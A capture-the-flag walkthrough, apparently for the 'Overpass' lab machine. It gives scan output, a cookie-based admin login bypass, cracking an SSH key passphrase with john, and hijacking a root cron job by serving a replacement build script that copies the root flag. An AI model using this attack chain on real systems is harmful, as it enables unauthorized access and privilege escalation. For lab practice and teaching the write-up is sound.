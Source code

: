 # Overpass

## 1. nmap scan
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## 2. gobuster scan
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]

## 3. change the cookie
Press F12 on the website and type inside the console Cookies.set("SessionToken","")
Now press F5 and we got a username "James" and a ssh key

## 4. crack the hash
> ssh2john key > hash
> john hash /usr/share/wordlist/rockyou.txt
--> now we got our password

## 5. access to ssh
> ssh -i key james@<IP>

## 6. root access
There is a cron job, so we build the path like in the cron job on our host.
> nano downloads/src/buildscript.sh
Put our shell and a way to write the flag inside the new sh file.

#!/bin/bash
cat /root/root.txt > /tmp/flag

lets start a normal python3 web server and the cron job will write the flag inside /tmp/flag
> python3 -m http.server 80


